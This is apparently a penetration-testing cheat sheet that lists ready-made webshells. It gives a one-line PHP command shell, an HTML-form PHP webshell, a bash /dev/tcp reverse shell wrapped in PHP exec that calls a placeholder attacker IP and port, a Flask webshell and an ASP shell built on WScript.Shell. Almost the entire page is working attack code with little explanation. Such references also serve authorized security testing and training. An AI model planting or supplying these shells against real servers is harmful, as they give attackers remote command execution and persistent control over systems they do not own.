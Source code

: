 A **webshell** is a malicious script uploaded to a web server to enable remote command execution. 


## Basic PHP Command Prompt

A simple PHP script can be used to execute system commands via a GET request:

```php
<?php system($_GET['cmd']); ?>
```

This allows to execute commands by passing them in the URL, such as:

```
http://example.com/shell.php?cmd=whoami
```

## PHP Webshell

A more interactive **webshell** can be created using an HTML form to execute commands:

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

This script provides a simple web interface to execute system commands by entering them into the form field.

## PHP Reverse Shell
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<own_ip>/<port> 0>&1'"); ?>
```

## Python Webshell

```python
import os
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    return 'Send a command using ?cmd=your_command'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

This Python webshell uses Flask to run system commands via HTTP requests.

## ASP Webshell

```
<%
Set shell = Server.CreateObject("WScript.Shell")
cmd = Request.QueryString("cmd")
If cmd <> "" Then
    Set exec = shell.Exec("cmd.exe /c " & cmd)
    Response.Write("<pre>" & exec.StdOut.ReadAll() & "</pre>")
End If
%>
```

This ASP webshell executes system commands using `cmd.exe` and displays the output.